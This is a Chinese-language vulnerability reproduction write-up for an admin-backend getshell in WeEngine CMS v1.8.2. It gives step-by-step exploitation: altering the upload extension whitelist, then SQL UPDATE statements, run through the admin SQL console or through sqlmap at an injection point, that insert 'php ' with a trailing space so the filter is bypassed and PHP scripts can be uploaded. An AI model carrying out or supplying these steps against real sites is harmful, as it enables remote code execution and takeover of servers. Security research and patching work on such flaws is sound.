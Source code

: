 ```yaml
---
title: "微擎cms v1.8.2 后台getshell"
id: zhfly3367
---
```


# 微擎cms v1.8.2 后台getshell

## 一、漏洞简介

## 二、漏洞影响

v1.8.2（201812130002）

## 三、复现过程

站点-附件设置-支持文件后缀

![image](../img/678e73524f8219d7443c3010a17dc2cc.png)

在安装完成的时候,数据库里面并没有写入支持文件后缀的值,需要我们进行添加需要的脚本格式php等等

![image](../img/831d45694b99c584b138baff261a65e4.png)

直接写上支持的后缀为php是会带入到数据库的,提交完毕以后数据库会显示可上传的值

```
a:3:{s:16:"attachment_limit";  
i:0;s:5:"image";a:5:{s:5:"thumb";i:0;s:5:  
"width";i:800;s:10:"extentions";  
a:4:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;s:3:"png";}  
s:5:"limit";i:5000;s:14:"zip_percentage";s:3:"100";}  
s:5:"audio";a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

### 漏洞利用

写入任意字符

![image](../img/2e87d66ad7c4880ce92f27c9ef5f0fb8.png)

```
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"aaa";}s:5:"limit";i:5000;
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";  a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

站点-常用工具-数据库-执行SQL语句替换之前插入的值 (记得打开调试模式)

```
UPDATE ims_core_settings SET value = replace(value, 'aaa', 'php ') 
```

注意php后有一个空格

or 如果在渗透过程中有SQL注入点的情况下 有用户权限能够上传,尝试直接在SQLMAP执行语句

```
UPDATE `ims_core_settings` SET
`key` = 'upload',
`value` = 'a:2:{s:5:\"image\";a:4:{s:5:\"thumb\";i:0;  
s:5:\"width\";i:800;s:10:\"extentions\";  
a:5:{i:0;s:3:\"gif\";i:1;s:3:\"jpg\";i:2;  
s:4:\"jpeg\";i:3; s:3:\"png\";i:4;s:3:\"php \";}  
s:5:\"limit\";i:5000;}s:5:\"audio\";  
a:2:{s:10:\"extentions\";a:1:{i:0;s:3:\"mp3\";}s:5:\"limit\";i:5000;}}'
WHERE `key` = 'upload' AND `key` = 'upload' COLLATE utf8mb4_bin; 
```

![image](../img/c724c0074936d3c1ee66c15083469e7a.png)

```
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"php ";}s:5:"limit";i:5000;  
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

执行完毕-系统-更新缓存

![image](../img/8b70aea90b355975486592daf75f6540.png)

### 上传php文件

以上全部操作完毕,直接在可以上传图片的地方进行上传脚本

![image](../img/b1b6fba36c0ac32ab66399d753e17a94.png)

## 四、参考链接

> https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html